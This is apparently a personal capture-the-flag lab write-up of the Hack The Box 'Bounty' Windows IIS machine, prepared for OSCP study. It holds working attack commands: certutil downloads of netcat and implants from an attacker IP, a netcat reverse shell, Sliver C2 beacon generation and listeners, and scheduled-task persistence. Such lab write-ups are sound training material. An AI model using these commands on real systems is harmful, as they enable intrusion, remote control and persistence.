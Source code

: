 # Bounty

Name: Bounty
Date:  16/5/2023
Difficulty:  Easy
Goals:  
- OSCP Prep & finish with speed as I have already reconed 
- Try Sherlock.ps1 
Learnt:
Beyond Root:
- Write my C Reverse Shell.

![](merlin.jpg)

## Future 

Having looked at the end and the being of the [[Bounty-Old-Attempt]], I do not want this to be a Helped-Through
and as of 16/5/2023 I want to finish of this easy box that should probably not take too long.
![](agood4months.png)

Obviously I understand I have reconed and there is a way to have a web shell on the box, but I have not read the web.config just incase there is a password in it. I wont look at the original directory either and be starting from a fresh VM.

naabunaabu.png

curlforoptions.png

exiftoolmerlin.png

uploadedfiles.png

IIS research 
[HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services) 

*"As any .Net application, MVC applications have a **web.config** file, where "**assemblyIdentity**" XML tags identifies every binary file the application uses... In addition, .Net MVC applications are structured to define **other web.config files**, having the aim to include any declaration for specific namespaces for each set of viewpages, relieving developers to declare “@using” namespaces in every file.*"

https://github.com/irsdl/IIS-ShortName-Scanner 

The SSL certifiactes are not valid for cloud flare on the links to some HackTricks Article
sploiterbutnotbreaking.png
[ivoidwarranties](https://www.ivoidwarranties.tech/posts/pentesting-tuts/iis/web-config/), which led to https://github.com/wireghoul/htshells - but for php


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config/web.config

iisfinaltry.png

transferwoot.png


securefiletransfer.png

merlino.png

The weird one useness of this technique:
itseemitgetoneuse.png


```powershell
certutil -urlcache -split -f http://10.10.14.8/nc.exe c:\programdata\nc.exe
c:\programdata\nc.exe 10.10.14.8 8443 -e cmd
```

footholdintomerlin.png

```powershell
systeminfo
```

Sliver
```go
generate beacon --mtls 10.10.14.8:9001 --arch amd64 --os windows --save /home/kali/Bounty-Data
generate --mtls 10.10.14.8:9002 --arch amd64 --os windows --save /home/kali/Bounty-Data
mtls -L 10.10.14.8 -l 9001 
mtls -L 10.10.14.8 -l 9002
// Check jobs
jobs 
use sessionID
// upx the binaries
```
https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks-create
https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks-delete
```powershell
curl -L https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1 -o Sherlock.ps1
certutil -urlcache -split -f http://10.10.14.8/Sherlock.ps1 c:\programdata\Sherlock.ps1
certutil -urlcache -split -f http://10.10.14.8/ACTUAL_JUMPSUIT.exe c:\programdata\ACTUAL_JUMPSUIT.exe
certutil -urlcache -split -f http://10.10.14.8/SUFFICIENT_LIFT.exe c:\programdata\SUFFICIENT_LIFT.exe

# I tried and failed - discovered /z

# Schedule tasks
schtasks /create /sc minute /mo 1 /tn ACTUAL_JUMPSUIT /tr c:\programdata\ACTUAL_JUMPSUIT.exe
schtasks /create /sc minute /mo 1 /tn SUFFICIENT_LIFT /tr c:\programdata\SUFFICIENT_LIFT.exe
# Deletes the task upon completion!
/z

schtasks /delete /tn ACTUAL_JUMPSUIT /f 
schtasks /delete /tn SUFFICIENT_LIFT /f 
```



## Notes 

IP: 10.10.10.93
OS: Windows
Hostname: Bounty
Machine Purpose: Webserver
Services: IIS 80
Service Languages: aspx
Users: merlin
Credentials:

